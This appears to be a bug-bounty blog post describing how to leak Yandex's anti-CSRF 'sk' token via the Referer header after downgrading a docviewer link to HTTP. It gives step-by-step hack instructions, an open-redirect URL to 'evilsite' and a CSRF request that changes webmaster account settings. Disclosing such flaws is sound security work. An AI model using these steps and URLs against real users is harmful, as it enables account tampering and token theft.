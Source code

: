 ```yaml
---
layout: post
title: Bypass anti CSRF token of Yandex!
excerpt: "When you browse a link in docviewer.yandex.com, The site will recreate a token named `sk`, which is used to validate a redirection and anti-csrf token
`sk` is also an anti-csrf token on  {% highlight text %} http://webmaster.yandex.ru`,....."
categories: [Info Leakage,CSRF]
comments: true
---
```




When you browse a link in docviewer.yandex.com, The site will recreate a token named sk, which is used to validate a redirection and anti-csrf token. sk is also an anti-CSRF token on `http://webmaster.yandex.ru, https://docviewer.yandex.com/r.xml`. now If the attacker knows the value of your sk token, he can make a redirection and CSRF attack. How to know the token of the victim ???. Because `http://docviewer.yandex.com/r.xml?sk=thecsrftokenofvictim&url=evilsite` useD GET request, the params are showed in URL and it also changeable to https to HTTP. as a result, you can use REFERER HEADER to get the token.


### HACK STEPS 
 * Upload a document with link or a hyperlink. that hyperlink is the attacker's site..
 * Select the file, Share the link using the share button then get the link
 * Browse that link, Then click the view button you will redirect to docviewer.yandex.com
 * Change the https to http to allow us to see the referer in our site.
 {% highlight text %} 
https://docviewer.yandex.com/?url=ya-disk-public://nhP6POxtEi4v9wDffRyOFHbGQgIOhlsEbLhl3zH9c7k%3D&name=testxxx.odt to http://docviewer.yandex.com/?url=ya-disk-public://nhP6POxtEi4v9wDffRyOFHbGQgIOhlsEbLhl3zH9c7k%3D&name=testxxx.odt
{% endhighlight %}
* Send the url to victim and induce him to click the link for attacker'site to able to leak the anti-CSRF token.

 now you have his `sk` token! that is the bypass!

 **for redirection**
 {% highlight text %} 
 https://docviewer.yandex.com/r.xml?sk=thecsrftokenofvictim&url=evilsite
 {% endhighlight %}

**for csrf** → 
{% highlight text %}
http://webmaster.yandex.com/settings/messages/types.xml?email_1=EMAIL&email_2=EMAIL&message_3=MESSAGE&email_3=EMAIL&message_4=MESSAGE&percent=50&message_5=MESSAGE&message_6=MESSAGE&message_7=MESSAGE&message_8=MESSAGE&email_8=EMAIL&message_9=MESSAGE&message_10=MESSAGE&message_12=MESSAGE&message_17=MESSAGE&message_18=MESSAGE&message_19=MESSAGE&email_19=EMAIL&message_21=MESSAGE&email_21=EMAIL&message_22=MESSAGE&email_22=EMAIL&message_32=MESSAGE&do=save&sk=TOKENOFVICTIM
{% endhighlight %}

**This is wide CSRF attack which affect other Yandex domain.**

### list of affected Yandex domain

* http://appmetrica.yandex.com/
* https://calendar.yandex.ru
* https://disk.yandex.com/
* docviewer.yandex.com
* m.contact.yandex.com.tr & etc

*NOTE: i used javascript code to get the leaked csrf token on refrerer header and append it to my CSRF PoC.*
